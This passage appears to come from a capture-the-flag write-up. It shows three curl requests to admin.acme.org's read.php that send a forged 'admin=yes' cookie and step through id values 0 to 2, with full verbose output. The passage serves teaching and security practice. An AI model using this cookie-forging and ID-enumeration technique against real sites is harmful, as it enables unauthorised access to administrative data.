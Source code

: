 Woah! We are onto something! Could it be so easy? What is read.php? Let's try to hit that up!

Attempt #1:

```
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=0 -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> GET /read.php?id=0 HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> 
	< HTTP/1.1 200 OK
	< Date: Sat, 18 Nov 2017 05:31:03 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Content-Length: 11
	< Content-Type: text/html; charset=UTF-8
	< 
	* Connection #0 to host admin.acme.org left intact
	{"data":""}
```

Attempt #2:

```
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=1 -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> GET /read.php?id=1 HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> 
	< HTTP/1.1 200 OK
	< Date: Sat, 18 Nov 2017 05:31:49 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Content-Length: 11
	< Content-Type: text/html; charset=UTF-8
	< 
	* Connection #0 to host admin.acme.org left intact
	{"data":""}
```

Attempt #3:

```
	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=2 -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> GET /read.php?id=2 HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> 
	< HTTP/1.1 404 Not Found
	< Date: Sat, 18 Nov 2017 05:32:35 GMT
	< Server: Apache/2.4.18 (Ubuntu)
```